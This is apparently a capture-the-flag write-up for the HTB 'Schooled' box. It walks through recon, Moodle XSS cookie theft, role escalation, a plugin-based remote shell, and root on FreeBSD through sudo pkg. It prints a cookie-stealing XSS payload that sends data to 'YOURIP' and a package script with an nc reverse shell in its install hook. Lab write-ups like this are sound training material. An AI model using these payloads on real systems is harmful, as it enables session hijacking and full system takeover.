




Nmap
➜ schooled cat nmap/allportsdetailed
# Nmap 7.91 scan initiated Sat May 15 10:37:08 2021 as: nmap -sV -sV -p22,80,33060 -v -oN nmap/allportsdetailed 10.10.10.234
Nmap scan report for schooled.htb (10.10.10.234)
Host is up (0.058s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
80/tcp open http Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
33060/tcp open mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.91%I=7%D=5/15%Time=609FDC9B%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 15 10:37:26 2021 -- 1 IP address (1 host up) scanned in 18.79 seconds
Here we have three ports open lets try with port 80.
Not much useful but the teachers section will be useful later in this writeup.
Sub-Domain Enumeration
➜ schooled ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://schooled.htb/ -H 'Host: FUZZ.schooled.htb' -fs 20750
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.3.0 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://schooled.htb/
:: Wordlist : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
:: Header : Host: FUZZ.schooled.htb
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405
:: Filter : Response size: 20750
________________________________________________
moodle [Status: 200, Size: 84, Words: 5, Lines: 2]
:: Progress: [4989/4989] :: Job [1/1] :: 85 req/sec :: Duration: [0:01:04] :: Errors: 0 ::
I have tried directory bruteforcing and found nothing. Then tried sub domain enum and found moodle save http://moodle.schooled.htb/ in your hosts file.
For more info of moodle Wikipedia ("Moodle is a free and open-source learning management system (LMS) written in PHP and distributed under the GNU General Public License. Developed on pedagogical principles, Moodle is used for blended learning, distance education, flipped classroom and other e-learning projects in schools, universities, workplaces and other sectors.")
Creating Moodle Account
After signnp go to the mathemetics section and enroll the course
After enrolling into the course go to the announcements section and it says set MoodleNet profile.
Now i randomly put xss payloads and saved it and i got a popup.

<img src=1 href=1 onerror="javascript:alert("pwned")"> <img src=x onerror=this.src='http://YOURIP/?'+document.cookie;>
Use the above payload and the start python server at 80 and Browsw to the Mathemetics section we will get the "Manuel Philips" cookie.
ctrl + shift + c to open inspect elemnt and go to the storage and replace to "Manuel philips"cookie. we have the "Manuel philips" account.
Now at the bottom of the page we can see the moodle docs open it and we can see the moodle version it is 3.9 google for exploit.
We can see that it has a RCE Youtube video.
Another source Github.
Now go to the participants section and enroll users add "lianne carter" and intercept the request in burp and send it to the repeater.
Change the 25 vale to our id value 24 and role 5 to role 1 and we can see the it is 200 ok.
And below the participants click "Manuel philips" we can see he is a manager
Now click "lianne carter" and login as administrator and we can see that we got a option as site administrator.
Go to users and define roles and go to the manager and edit and do nothing and go to the bottom of the Page save roles and intercept the request.
Go to the Github Page and replace the request.
Upload the zip file as in github. I changed it to reverse shell.
Then go to http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php we will get a shell back.
Go to the /usr/local/www/apache24/data/moodle directory we can find config.php file
Here there are bunch of hashes are present take the admin hash and crack it
The hash was sucessfully cracked
Privesec
Now jush ssh into the box with the crakced password to jamie. And check wheather jamie has sudo commands.
The user jamie has package install and update sudo permissions.
And i google searched the and i found the xct's website
Tried the payload but it did not worked for me :(
Below is the source of the website for creating-custom-packages-on-freebsd.
#!/bin/sh
STAGEDIR=/tmp/package
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}
cat >> ${STAGEDIR}/+PRE_INSTALL <<EOF
echo "Resetting root shell"
rm /tmp/a;mkfifo /tmp/a;cat /tmp/a|/bin/sh -i 2>&1|nc 10.10.14.10 9002 >/tmp/a
EOF
cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
echo "Registering root shell"
pw usermod -n root -s /bin/sh
EOF
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF
pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -o .
Change to your ip and port. and change the permission and execute
Open your netcat listener. And executing the file named "mypackage-1.0.5.txz" will be created and run it the shell will be spawned.